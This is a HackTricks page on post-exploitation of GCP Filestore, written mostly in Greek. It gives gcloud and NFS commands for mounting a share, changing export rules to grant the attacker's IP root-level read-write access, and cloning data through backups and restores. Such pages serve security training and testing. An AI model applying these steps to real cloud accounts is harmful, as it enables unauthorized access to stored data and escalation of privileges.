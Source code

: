 # GCP - Filestore Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Filestore

Για περισσότερες πληροφορίες σχετικά με το Filestore ελέγξτε:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Mount Filestore

Ένα κοινόχρηστο σύστημα αρχείων **μπορεί να περιέχει ευαίσθητες πληροφορίες** που είναι ενδιαφέρουσες από την προοπτική ενός επιτιθέμενου. Με πρόσβαση στο Filestore είναι δυνατό να **τοποθετηθεί**:

{% code overflow="wrap" %}
```bash
sudo apt-get update
sudo apt-get install nfs-common
# Check the share name
showmount -e <IP>
# Mount the share
mkdir /mnt/fs
sudo mount [FILESTORE_IP]:/[FILE_SHARE_NAME] /mnt/fs
```
{% endcode %}

Για να βρείτε τη διεύθυνση IP μιας παρουσίας filestore, ελέγξτε την ενότητα αρίθμησης της σελίδας:

{% content-ref url="../gcp-services/gcp-filestore-enum.md" %}
[gcp-filestore-enum.md](../gcp-services/gcp-filestore-enum.md)
{% endcontent-ref %}

### Αφαίρεση Περιορισμών και απόκτηση επιπλέον δικαιωμάτων

Εάν ο επιτιθέμενος δεν βρίσκεται σε μια διεύθυνση IP με πρόσβαση στο κοινόχρηστο, αλλά έχετε αρκετά δικαιώματα για να το τροποποιήσετε, είναι δυνατόν να αφαιρέσετε τους περιορισμούς ή την πρόσβαση σε αυτό. Είναι επίσης δυνατό να παραχωρήσετε περισσότερα προνόμια στη διεύθυνση IP σας για να έχετε διαχειριστική πρόσβαση στο κοινόχρηστο:
```bash
gcloud filestore instances update nfstest \
--zone=<exact-zone> \
--flags-file=nfs.json

# Contents of nfs.json
{
"--file-share":
{
"capacity": "1024",
"name": "<share-name>",
"nfs-export-options": [
{
"access-mode": "READ_WRITE",
"ip-ranges": [
"<your-ip-private-address>/32"
],
"squash-mode": "NO_ROOT_SQUASH",
"anon_uid": 1003,
"anon_gid": 1003
}
]
}
}
```
### Restore a backup

Αν υπάρχει ένα αντίγραφο ασφαλείας, είναι δυνατόν να **το αποκαταστήσετε** σε μια υπάρχουσα ή σε μια νέα παρουσία ώστε οι **πληροφορίες του να γίνουν προσβάσιμες:**
```bash
# Create a new filestore if you don't want to modify the old one
gcloud filestore instances create <new-instance-name> \
--zone=<zone> \
--tier=STANDARD \
--file-share=name=vol1,capacity=1TB \
--network=name=default,reserved-ip-range=10.0.0.0/29

# Restore a backups in a new instance
gcloud filestore instances restore <new-instance-name> \
--zone=<zone> \
--file-share=<instance-file-share-name> \
--source-backup=<backup-name> \
--source-backup-region=<backup-region>

# Follow the previous section commands to mount it
```
### Δημιουργία αντιγράφου ασφαλείας και αποκατάσταση

Αν **δεν έχετε πρόσβαση σε ένα κοινόχρηστο και δεν θέλετε να το τροποποιήσετε**, είναι δυνατόν να **δημιουργήσετε ένα αντίγραφο ασφαλείας** από αυτό και να το **αποκαταστήσετε** όπως αναφέρθηκε προηγουμένως:

{% code overflow="wrap" %}
```bash
# Create share backup
gcloud filestore backups create <back-name> \
--region=<region> \
--instance=<instance-name> \
--instance-zone=<instance-zone> \
--file-share=<share-name>

# Follow the previous section commands to restore it and mount it
```
{% endcode %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
